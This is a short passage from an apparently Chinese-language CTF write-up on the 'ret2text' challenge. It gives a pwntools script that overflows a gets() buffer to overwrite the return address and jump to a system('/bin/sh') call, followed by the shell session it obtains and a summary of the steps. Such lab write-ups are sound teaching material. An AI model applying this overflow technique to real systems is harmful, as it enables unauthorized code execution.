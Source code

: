 - 按照上面显示的相对地址(左侧显示的)，字符串s与return address(也就是上面显示的 r )之间的偏移量为 `0x64+0x4`，然而实际应为`0x6c + 0x4`
- 也不知道错误是出在哪。属于TBD事项



# Exploit

```python
# !/usr/bin/env python
from pwn import *

sh = process('./ret2text')
target = 0x804863a # 这个是前面分析的 mov dword ptr [esp], offset command ; command: "/bin/sh" 的地址 后面一条指令是 call  _system
payload = b'A' * (0x6c + 4) + p32(target) # 这里是前面分析的字符串 s 与 return address 之间的偏移量
sh.sendline(payload)
sh.interactive()
```

- 运行效果：

```bash
$ python ret2text.py  # python3.7
[+] Starting local process './ret2text': pid 26436
[*] Switching to interactive mode
There is something amazing here, do you know anything?
Maybe I will tell you next time !$ ls # 这里已经 getshell 了
canary_demo.c  canary.py  core    ex2  example  ret2text    ret2text.py
$ pwd
/home/kali/CTF/pwn
```



# Summary

1. IDA分析出危险函数(`gets`)
2. IDA分析出可以用于getshell的地方(`system("/bin/sh");`)，记录可以 getshell 的地址
3. gdb(pwndbg)分析出`gets`函数所用字符串 s 与 return address 之间的偏移量，构造payload，将用于getshell的地址覆盖到 return address 